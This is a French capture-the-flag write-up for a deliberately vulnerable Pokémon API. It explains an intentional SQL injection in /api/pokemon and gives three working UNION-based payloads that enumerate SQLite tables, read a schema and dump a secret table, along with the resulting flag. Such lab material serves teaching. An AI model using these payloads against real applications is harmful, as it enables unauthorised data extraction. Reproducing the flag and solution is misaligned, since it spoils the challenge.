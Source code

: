 # Team Requête - Partie 2

## Fichiers fournis

- Lien vers l'instance

## Démarrage

Pour lancer l'application, utilisez Docker avec les commandes suivantes :

```
docker build -t teamrequetep2 .
docker run -p 8000:8000 --rm --name teamrequetep2 teamrequetep2
```

## Description

Dans cette partie du défi, le Pokémon secret est caché dans une table nommée `pokemon_secret`. La vulnérabilité d'injection SQL (SQLi) présente dans la requête `/api/pokemons` a été corrigée. Cependant, une nouvelle vulnérabilité a été introduite dans la requête `/api/pokemon`, qui permet d'obtenir les détails d'un Pokémon spécifique.

Pour faciliter l'exploitation, l'affichage des erreurs est activé. De plus, les tentatives d'injection via les mots clés `OR` ont été bloquées pour contrer les injections SQLMap classiques.

L'approche recommandée est d'utiliser une injection SQL de type `UNION based SQLi` afin de récupérer des informations depuis d'autres tables.

> Requête 1 UNION requête 2

En se basant sur le format JSON retourné par l'API, il n'est pas nécessaire de neutraliser la première requête pour que les résultats s'affichent correctement. Toutefois, si l'on utilise l'interface graphique, il est impératif de neutraliser la première requête, car un seul Pokémon peut être affiché à la fois.

Étapes à suivre :

1.  Récupérer le nom des tables.
2.  Récupérer le nom et le nombre de colonnes de la table `pokemon_secret`.
3.  Récupérer les informations contenues dans la table `pokemon_secret`.

## Étapes d'exploitation

1.  **Récupérer le nom des tables :**

    La requête suivante permet de lister les tables, en excluant les tables systèmes de SQLite :

```
arbok' AND name != 'arbok' UNION SELECT  NULL,group_concat(tbl_name),NULL,NULL,NULL,NULL FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```

    Résultat : `pokemon, pokemon_secret`

2.  **Récupérer le nom des colonnes de la table `pokemon_secret` :**

    Utilisez la requête suivante pour obtenir le schéma de la table `pokemon_secret` :

```
arbok' AND name != 'arbok' UNION SELECT  NULL,sql,NULL,NULL,NULL,NULL FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='pokemon_secret' --
```

    Résultat : `POKEMON_SECRET(ID, NAME, HEIGHT, WEIGHT, BASE_EXPERIENCE, SPRITE)`

3.  **Récupérer le Pokémon secret :**

    Injectez une requête SQL pour récupérer les données de la table `pokemon_secret` :

```
arbok' AND name != 'arbok' UNION SELECT id,name,height,weight,base_experience,sprite FROM pokemon_secret --
```

    Résultat : `CTFAC{UN10N_B453D_5QL1}`

